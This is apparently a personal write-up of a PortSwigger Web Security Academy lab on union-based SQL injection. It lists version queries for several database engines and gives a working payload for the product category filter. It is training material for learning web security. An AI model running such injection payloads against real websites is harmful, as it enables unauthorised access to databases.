

# Lab02: SQL injection attack, querying the database type and version on MySQL and Microsoft
* url: `https://portswigger.net/web-security/sql-injection/examining-the-database/lab-querying-database-version-mysql-microsoft`
* vulnerability: `Union-Based SQL Injection`

## Description 
This lab contains a SQL injection vulnerability in the product category filter. You can use a UNION attack to retrieve the results from an injected query.

To solve the lab, display the database version string. 

## Proof of Concept
1. From the description of the lab, I'm told to use a `UNION attack` on the `product category` filter, much like the last lab. I'm also given a hint on the home page of the lab:  

2. The methodology behind this lab is extremely close to the last lab, so please refer to: `sqli-practitioner-lab01.md`
3. I can test each of these, until I receive feedback:
* MySQL: `SELECT VERSION();` or `SELECT @@version`
* PostgreSQL: `version();`
* Microsoft SQL Server: `SELECT @@version`
* Oracle: `SELECT version from v$instance;` or `select banner from v$version` or 
`SELECT * from v$version;`
* SQLite: `SELECT sqlite_version();`
4. The following payload works!: `' UNION SELECT @@version, null-- -`
